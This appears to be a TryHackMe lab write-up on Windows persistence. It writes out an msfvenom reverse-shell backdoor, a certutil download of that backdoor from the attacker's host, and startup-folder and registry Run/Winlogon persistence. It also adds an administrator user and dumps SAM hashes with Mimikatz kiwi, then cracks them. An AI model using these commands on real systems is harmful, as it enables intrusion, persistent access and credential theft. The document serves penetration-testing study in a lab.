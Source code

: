 # TryHackMe-Persistance

## ﻿What is persistence?

Persistence is a post-exploitation activity used by penetration testers in order to keep access to a system throughout the whole assessment and not to have to re-exploit the target even if the system restarts.

It can be considered that there are two types of persistence. These two types are:

    Low privileged persistence
    Privileged user persistence


### Low privileged user persistence

Low privileged persistence means that the penetration tester gained and uses persistence techniques to keep his access to the target system under a normal user profile/account (a domain user with no administrative rights).


### Privileged user persistence

After gaining access to a system, sometimes (because it would be inaccurate to say always), a penetration tester will do privilege escalation in order to gain access to the highest privilege user that can be on a Windows machine (nt authority\system).

After privilege escalation, he will use persistence in order to keep the access he gained.


Keeping persistence

Ways of keeping persistence:

    Startup folder persistence
    Editing registry keys
    Using scheduled tasks
    Using BITS
    Creating a backdoored service
    Creating another user
    Backdooring RDP


## RDP 

Access the machine through RDP (Remote Desktop Protocol) through the credentials given

```
tryhackme:tryhackme123
```


<img src="https://imgur.com/C4ygsY5.png"/>

Then click on `Save and Connect`


<img src="https://imgur.com/hIiAApg.png"/>

## Msfvenom 

Now create a backdoor through `msfvenom` and use `metasploit` to set a listener on to the port that the backdoor is set 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.14.3.143 LHOST=6666 -f exe > backdoor.exe
```
<img src="https://imgur.com/0pvMA5U.png"/>

## Metasploit

<img src="https://imgur.com/yf8xl4Y.png"/>

Now host the backdoor on your machine

`python3 -m http.server 80`

And run this on target machine on `cmd` 

`certutil.exe -urlcache -f http://10.14.3.143:80/backdoor.exe backdoor.exe`

<img src="https://imgur.com/WHGRLa6.png"/>

But I didn't get saved on  the target machine so I tried to save it on it's home directory and it worked now start listening on metasploit and execute the backdoor on our target machine


But it didn't get worked , so now let's generate another backdoor but instead of specifiying architecture leave it 


<img src="https://imgur.com/rgQvRda.png"/>


<img src="https://imgur.com/bAgctSI.png"/>

Now this worked !

<img src="https://imgur.com/Hm8xYhj.png"/>


### Startup folder persistence

Now we can upload a backdoor that will be executed whenever the system starts up to do that we navigate to

`C:\Users\tryhackme\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` and here upload that backdoor

<img src="https://imgur.com/PIJtzlj.png"/>

<img src="https://imgur.com/Wg0PUa6.png"/>

Every time a user restarts its computer and logs in the backdoor will be executed and Metasploit will receive the connection.


### Editing registries

A low privileged user can still edit registries entries in a system , entry that can be edited is 

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```
On meterpreter shell type `shell` to get a windows cmd and then type this command

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\tryhackme\AppData\Roaming\backdoor.exe`

<img src="https://imgur.com/AmiciiN.png"/>



### Having Administrator Rights

By having high privilege rights we can add another admin user

`net user /add <USER> <PASSWORD>`

This will just a user to add that user in `Administrator` group

`net localgroup Administrators <USER> /add`

### Editing registries

We can also get persistance through adding a registry , when a user logs on to a system `Backdoor` can be invoked

`reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f`

### Hash Dump

Hash dumping will not run unless you are administrator so let's switch to admin 

`Administrator:Tryhackme123!`

<img src="https://imgur.com/JXNCzh5.png"/>

Now , run `getsystem` and `load kiwi` then run `lsa_dump_sam`

<img src="https://imgur.com/vXOvdMQ.png"/>  


```
Domain : PERSISTENCE                 
SysKey : 31066436b67d1dfb03c9f249b9aed099                                                                                                           
Local SID : S-1-5-21-3421978194-83625553-4099171136                       

SAMKey : d0bb192867888f2d94bc148c442c6c7c                                 

RID  : 000001f4 (500)                
User : Administrator                 
  Hash NTLM: 52745740e9a05e6195731194f03865ea                             

RID  : 000001f5 (501)                
User : Guest                         

RID  : 000001f7 (503)                
User : DefaultAccount                

RID  : 000003e8 (1000)               
User : joe                           
  Hash NTLM: 878d8014606cda29677a44efa1353fc7                             

RID  : 000003e9 (1001)               
User : chris                         
  Hash NTLM: e0b6050c7280bf4a7bee599cf374fd80                             

RID  : 000003ea (1002)               
User : tryhackme                     
  Hash NTLM: 0c7ba4684821cd349e327896d9db4474   
```

Now let's crack `joe`'s and `chris`'s password hashes


#### Chris

<img src="https://imgur.com/XEGhHF2.png"/>

#### Joe

<img src="https://imgur.com/1hjFwTH.png"/>

I used online crackstation to crack these hashes  however they can still be cracked by using `crackstation`'s wordlists or using `seclist` to crack them using `hashcat` or `johntheripper`

